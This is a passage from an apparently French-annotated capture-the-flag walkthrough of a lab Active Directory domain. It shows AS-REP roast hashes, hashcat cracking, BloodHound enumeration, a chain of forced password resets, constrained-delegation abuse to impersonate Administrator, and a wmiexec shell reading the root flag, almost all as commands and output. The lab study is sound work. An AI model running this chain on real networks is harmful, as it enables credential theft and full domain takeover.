        LDAP        10.10.34.37    389    HAYSTACK         [+] thm.corp\Automate:Passw0rd1 
        LDAP        10.10.34.37    389    HAYSTACK         [*] Total of records returned 3
        LDAP        10.10.34.37    389    HAYSTACK         $krb5asrep$23$ERNESTO_SILVA@THM.CORP:296d056e69d542073aa8bfd1315028d6$c78c5909086f8e6175fb99e77f076239bb63201ffaf80aa48b42ed0fab160553b345113b7e75edaf927e745ca90a2c584492fb220163917f941ee632e8e131ac07f6fa217b8b14645800748a047c9906a408df5b2ad2eeafa7480566dfc27715...36ade1ec476debfa3bcab14feb29103c33d12423256dfbad80e92e59e56f48068d24a95cc45948aa1f014666dc315b6023ec4d81c8bd87a8cfe72d36c99172c91dbea48e25da8eb5c5
        LDAP        10.10.34.37    389    HAYSTACK         $krb5asrep$23$TABATHA_BRITT@THM.CORP:cc888d86c61d653612bdd849bd677b7f$a32227477277a35cb20ce14356508f9bd7345aac3cc99523f54d85f039e4716c7ad5c7975bae834ee540d03ad7ae8f9c52e8f0ef2d94762f2121fc32b41367f35ca36cb030cad975bc0b70b9907161a2a04c70f4f439ebc864e1a81b63d675f51e716d20...f3ac2561119f185445afbe081338aef51e436d8d9db683a1b0d67f55ae8387f2f588c2b0f3e34aa4c973250a45167f71eeac1cdb964589760a0f4dee61ea67ed1cfb47ea84e516dfaf9170f0ff9
        LDAP        10.10.34.37    389    HAYSTACK         $krb5asrep$23$LEANN_LONG@THM.CORP:4b71b4aa52bd68e5a3b0954a1a828fb0$457134227cba9dfc3f96c8aebcc55a7962fe09066a8edd6f9ca23678e69abdf9631b3a3b9430d31c7980559cbc4e96a627db340a95d69336d58d4b037dd28cea153a38b67fafa85a6bc63fa3a8c36d08941ab088e19a0bfca425f9e4e161e4a1ec656c19...583bf07f87bfc797e35a42886da156358fe75ebcb85091a19cf8395b1d8c38588a56

---

`hashcat -m 18200 -a 0 hash_asreproast.txt /usr/share/wordlists/rockyou.txt`

        hashcat (v6.2.6) starting

        OpenCL API (OpenCL 3.0 PoCL 3.1+debian  Linux, None+Asserts, RELOC, SPIR, LLVM 15.0.6, SLEEF, POCL_DEBUG) - Platform #1 [The pocl project]
        ==========================================================================================================================================
        * Device #1: pthread--0x000, 2941/5946 MB (1024 MB allocatable), 12MCU

        Minimum password length supported by kernel: 0
        Maximum password length supported by kernel: 256

        Hashes: 3 digests; 3 unique digests, 3 unique salts
        Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
        Rules: 1

        Optimizers applied:
        * Zero-Byte
        * Not-Iterated

        ATTENTION! Pure (unoptimized) backend kernels selected.
        Pure kernels can crack longer passwords, but drastically reduce performance.
        If you want to switch to optimized kernels, append -O to your commandline.
        See the above message to find out about the exact limits.

        Watchdog: Hardware monitoring interface not found on your system.
        Watchdog: Temperature abort trigger disabled.

        Host memory required for this attack: 3 MB

        Dictionary cache hit:
        * Filename..: /usr/share/wordlists/rockyou.txt
        * Passwords.: 14344384
        * Bytes.....: 139921497
        * Keyspace..: 14344384

        $krb5asrep$23$TABATHA_BRITT@THM.CORP:cc888d86c61d653612bdd849bd677b7f$a32227477277a35cb20ce14356508f9bd7345aac3cc99523f54d85f039e4716c7ad5c7975bae834ee540d03ad7ae8f9c52e8f0ef2d94762f2121fc32b41367f35ca36cb030cad975bc0b70b9907161a2a04c70f4f439ebc864e1a81b63d675f51e716d2002a1f6bd8bbade170a5ec01c763a4b329796b2c1ab3650f4fb8e63602a84daff3977566b3cc0316f68b94dfcca2fc5cce649bf3ac2561119f185445afbe081338aef51e436d8d9db683a1b0d67f55ae8387f2f588c2b0f3e34aa4c973250a45167f71eeac1cdb964589760a0f4dee61ea67ed1cfb47ea84e516dfaf9170f0ff9:mar...1985)
        Approaching final keyspace - workload adjusted.           

                                                                
        Session..........: hashcat
        Status...........: Exhausted
        Hash.Mode........: 18200 (Kerberos 5, etype 23, AS-REP)
        Hash.Target......: hash_asreproast.txt
        Time.Started.....: Tue Nov 18 14:21:13 2025 (12 secs)
        Time.Estimated...: Tue Nov 18 14:21:25 2025 (0 secs)
        Kernel.Feature...: Pure Kernel
        Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
        Guess.Queue......: 1/1 (100.00%)
        Speed.#1.........:  2964.0 kH/s (1.74ms) @ Accel:512 Loops:1 Thr:1 Vec:4
        Recovered........: 1/3 (33.33%) Digests (total), 1/3 (33.33%) Digests (new), 1/3 (33.33%) Salts
        Progress.........: 43033152/43033152 (100.00%)
        Rejected.........: 0/43033152 (0.00%)
        Restore.Point....: 14344384/14344384 (100.00%)
        Restore.Sub.#1...: Salt:2 Amplifier:0-1 Iteration:0-1
        Candidate.Engine.: Device Generator
        Candidates.#1....: $HEX[216361726f6c696e65] -> $HEX[042a0337c2a156616d6f732103]

        Started: Tue Nov 18 14:21:05 2025
        Stopped: Tue Nov 18 14:21:26 2025

**Nouveau compte cracké: TABATHA_BRITT**

---

`bloodhound-python -d thm.corp -u "Tabatha_Britt" -p 'mar...1985)' -ns $TARGET -c all --zip`

        INFO: BloodHound.py for BloodHound LEGACY (BloodHound 4.2 and 4.3)
        INFO: Found AD domain: thm.corp
        INFO: Getting TGT for user
        INFO: Connecting to LDAP server: haystack.thm.corp
        INFO: Found 1 domains
        INFO: Found 1 domains in the forest
        INFO: Found 1 computers
        INFO: Connecting to GC LDAP server: haystack.thm.corp
        INFO: Connecting to LDAP server: haystack.thm.corp
        INFO: Found 42 users
        INFO: Found 55 groups
        INFO: Found 3 gpos
        INFO: Found 222 ous
        INFO: Found 19 containers
        INFO: Found 0 trusts
        INFO: Starting computer enumeration with 10 workers
        INFO: Querying computer: HayStack.thm.corp
        INFO: Done in 00M 20S
        INFO: Compressing output into 20251118154811_bloodhound.zip

**On peut remarquer que l'utilisatrice Tabatha_Britt à les droits génériques sur le compte Shawna_Bray et que Shawna_Bray peut changer le mot de passe de Cruz_Hall et que Cruz_Hall peut réécrire l'objet Darla_Winters**

**Darla_Winters à les droits de déléguations sur le Domain Controler !**

`net rpc password 'Shawna_Bray' 'Password1234!' -U "thm.corp"/"Tabatha_Britt"%"mar...1985)" -S "$TARGET"`

`nxc ldap $TARGET -u "Shawna_Bray" -p 'Password1234!'`

        LDAP        10.10.34.37   389    HAYSTACK         [*] Windows 10 / Server 2019 Build 17763 (name:HAYSTACK) (domain:thm.corp) (signing:None) (channel binding:No TLS cert)
        LDAP        10.10.34.37   389    HAYSTACK         [+] thm.corp\Shawna_Bray:Password1234! 

---

`net rpc password 'Cruz_Hall' 'Password1234!' -U "thm.corp"/"Shawna_Bray"%'Password1234!' -S "$TARGET"`

`nxc ldap $TARGET -u "Cruz_Hall" -p 'Password1234!'`

        LDAP        10.10.34.37   389    HAYSTACK         [*] Windows 10 / Server 2019 Build 17763 (name:HAYSTACK) (domain:thm.corp) (signing:None) (channel binding:No TLS cert)
        LDAP        10.10.34.37   389    HAYSTACK         [+] thm.corp\Cruz_Hall:Password1234! 

---

`net rpc password 'Darla_Winters' 'Password1234!' -U "thm.corp"/"Cruz_Hall"%'Password1234!' -S "$TARGET"`

`nxc ldap $TARGET -u "Darla_Winters" -p 'Password1234!'`

        LDAP        10.10.34.37   389    HAYSTACK         [*] Windows 10 / Server 2019 Build 17763 (name:HAYSTACK) (domain:thm.corp) (signing:None) (channel binding:No TLS cert)
        LDAP        10.10.34.37   389    HAYSTACK         [+] thm.corp\Darla_Winters:Password1234! 

---

`getST.py -spn CIFS/Haystack.thm.corp -impersonate Administrator -dc-ip "$TARGET" "thm.corp"/"Darla_Winters":'Password1234!'`

        Impacket v0.13.0.dev0+20250717.182627.84ebce48 - Copyright Fortra, LLC and its affiliated companies 

        [*] Getting TGT for user
        [*] Impersonating Administrator
        [*] Requesting S4U2self
        [*] Requesting S4U2Proxy
        [*] Saving ticket in Administrator@CIFS_Haystack.thm.corp@THM.CORP.ccache

**Ticket d'authentification du compte Admin local sur le DC**

---

`export KRB5CCNAME=$(pwd)/Administrator@CIFS_Haystack.thm.corp@THM.CORP.ccache`

---

`wmiexec.py -k -no-pass THM.CORP/Administrator@Haystack.thm.corp`

        Impacket v0.13.0.dev0+20250717.182627.84ebce48 - Copyright Fortra, LLC and its affiliated companies 

        [*] SMBv3.0 dialect used
        [!] Launching semi-interactive shell - Careful what you execute
        [!] Press help for extra shell commands
        C:\>whoami
        thm\administrator

        C:\>cd Users/administrator
        C:\Users\administrator>cd Desktop
        C:\Users\administrator\Desktop>dir
        Volume in drive C has no label.
        Volume Serial Number is A8A4-C362

        Directory of C:\Users\administrator\Desktop

        07/14/2023  07:23 AM    <DIR>          .
        07/14/2023  07:23 AM    <DIR>          ..
        06/21/2016  03:36 PM               527 EC2 Feedback.website
        06/21/2016  03:36 PM               554 EC2 Microsoft Windows Guide.website
        06/16/2023  04:37 PM                30 root.txt
                    3 File(s)          1,111 bytes
                    2 Dir(s)  12,381,896,704 bytes free

        C:\Users\administrator\Desktop>type root.txt
        THM{RE_RE...ATE}

**ROOT FLAG**